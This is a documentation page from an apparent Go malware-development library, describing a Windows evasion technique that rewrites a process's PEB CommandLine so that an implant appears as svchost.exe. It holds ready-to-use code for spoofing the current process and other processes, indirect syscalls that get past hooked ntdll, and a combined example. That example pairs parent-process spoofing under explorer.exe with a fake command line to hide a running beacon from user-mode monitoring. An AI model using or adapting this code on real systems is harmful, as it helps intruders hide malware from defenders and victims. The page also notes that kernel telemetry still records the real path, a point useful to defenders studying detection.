

# FakeCmdLine — PEB CommandLine Overwrite

[<- Back to Evasion](README.md)

**MITRE ATT&CK:** [T1036.005 - Masquerading: Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005/)
**Package:** `evasion/fakecmd`
**Platform:** Windows
**Detection:** Low

---

## Primer

When a defender lists processes (Task Manager, Process Explorer,
`Get-Process | Select CommandLine`, Sysmon ProcessCreate event ID 1), the
command line shown is what each tool reads out of the target process's PEB
(Process Environment Block), not a separate kernel record.

FakeCmdLine overwrites that PEB field in-memory so every usermode reader sees
a benign command line — e.g., an implant launched as
`C:\evil.exe --beacon 1.2.3.4` can present itself as
`C:\Windows\System32\svchost.exe -k netsvcs`.

The kernel keeps a separate, unmodifiable copy in `EPROCESS` captured at
process creation, so kernel-sourced telemetry (ETW ProcessStart,
`PsSetCreateProcessNotifyRoutineEx`) still sees the original — this technique
fools usermode readers, not every defender.

---

## How It Works



**Layout:** PEB at `PEB.ProcessParameters` → `RTL_USER_PROCESS_PARAMETERS` at
offset `+0x20` on x64 → `CommandLine` UNICODE_STRING at `RUPP+0x70`. Overwrite
`Length`, `MaximumLength`, and `Buffer` to a new UTF-16 string and every
usermode enumerator sees the new value.

**Self vs remote:**
- `Spoof` rewrites the current process's own PEB — no special privilege
  needed, instant.
- `SpoofPID` rewrites another process's PEB via
  `OpenProcess(VM_READ|VM_WRITE|VM_OPERATION|QUERY_INFORMATION)` +
  `NtQueryInformationProcess` + `NtAllocateVirtualMemory` +
  `WriteProcessMemory`. Typically requires SeDebugPrivilege or elevation.

---

## Usage

**Self-spoof:**

```go
import (
    "log"

    "github.com/oioio-space/maldev/evasion/fakecmd"
)

if err := fakecmd.Spoof(`C:\Windows\System32\svchost.exe -k netsvcs`, nil); err != nil {
    log.Fatal(err)
}
defer fakecmd.Restore()

// From now on, every PEB reader sees svchost.exe -k netsvcs in this process.
```

**Remote spoof (another PID):**

```go
// Caller needs SeDebugPrivilege. Handles are opened internally.
err := fakecmd.SpoofPID(
    targetPID,
    `C:\Windows\System32\notepad.exe`,
    nil, // or a wsyscall.Caller for indirect syscalls
)
```

**With an indirect-syscall caller** (avoid hooked ntdll when reading/writing
the PEB):

```go
import wsyscall "github.com/oioio-space/maldev/win/syscall"

caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHellsGate())
_ = fakecmd.Spoof(`C:\Windows\System32\svchost.exe -k netsvcs`, caller)
```

---

## Combined Example

Pair a PPID-spoofed launch (via `c2/shell.PPIDSpoofer`) with a
`fakecmd.Spoof` in the child so usermode enumerators see a realistic
`explorer.exe → svchost.exe -k netsvcs` tree instead of
`cmd.exe → implant.exe --beacon`.

```go
package main

import (
    "log"
    "os"
    "os/exec"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/evasion/fakecmd"
)

func main() {
    if os.Getenv("RESPAWNED") == "" {
        // Stage 1 — parent: re-launch self with explorer.exe as PPID.
        sp := shell.NewPPIDSpooferWithTargets([]string{"explorer.exe"})
        if err := sp.FindTargetProcess(); err != nil {
            log.Fatal(err)
        }
        attr, handle, err := sp.SysProcAttr()
        if err != nil {
            log.Fatal(err)
        }
        cmd := exec.Command(os.Args[0])
        cmd.Env = append(os.Environ(), "RESPAWNED=1")
        cmd.SysProcAttr = attr
        if err := cmd.Start(); err != nil {
            log.Fatal(err)
        }
        _ = handle // parent keeps the handle alive until Start returns
        return
    }

    // Stage 2 — child: rewrite own PEB CommandLine to look like a
    // Schedule-svchost (a tree branch users see daily).
    if err := fakecmd.Spoof(
        `C:\Windows\System32\svchost.exe -k netsvcs -p -s Schedule`,
        nil,
    ); err != nil {
        log.Fatal(err)
    }
    defer fakecmd.Restore()

    // Usermode collectors now see:
    //   explorer.exe → svchost.exe -k netsvcs -p -s Schedule
    runBeacon()
}

func runBeacon() { /* actual implant work */ }
```

Defender view: a Schedule-svchost under explorer.exe is a daily sight;
nothing to investigate. Kernel ETW ProcessCreate still carries the real
binary path, so defenders ingesting that event source are not fooled.

---

## API Reference

See [evasion.md](../../evasion.md#fakecmd----peb-commandline-spoof)
